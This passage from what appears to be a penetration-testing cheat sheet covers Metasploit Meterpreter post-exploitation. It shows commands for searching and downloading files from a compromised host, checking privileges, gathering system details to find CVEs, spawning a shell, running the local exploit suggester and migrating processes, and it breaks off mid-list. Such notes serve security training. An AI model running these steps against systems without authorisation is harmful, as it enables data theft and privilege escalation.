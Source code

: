 It's useful to note that the commands that you can use in the meterpreter are different based on the payload that you used. You will usually call `help` to see what you can use.

```bash
meterpreter > help # list commands that you can use
```

<details class="details-e"><summary>You can use many Linux-like commands</summary></details>

<details class="details-e"><summary>Execute commands on your local machine</summary></details>

Other useful commands

```bash
meterpreter > search -f pattern # search file by pattern
meterpreter > search -f pattern / # search inside /
meterpreter > download remote_path local_path # download
meterpreter > upload local_path remote_path # upload
```

</div><div>

* ➡️ See if you are root and your privileges

```bash
meterpreter > getuid
# Windows: NT AUTHORITY\SYSTEM = admin 😎
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```bash
meterpreter > sysinfo
# Computer        : XXX-PC
# OS              : Windows X (... Build xxx...).
# Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```bash
meterpreter > shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```

* ➡️ Ask for suggested exploits

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```bash
meterpreter > resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.
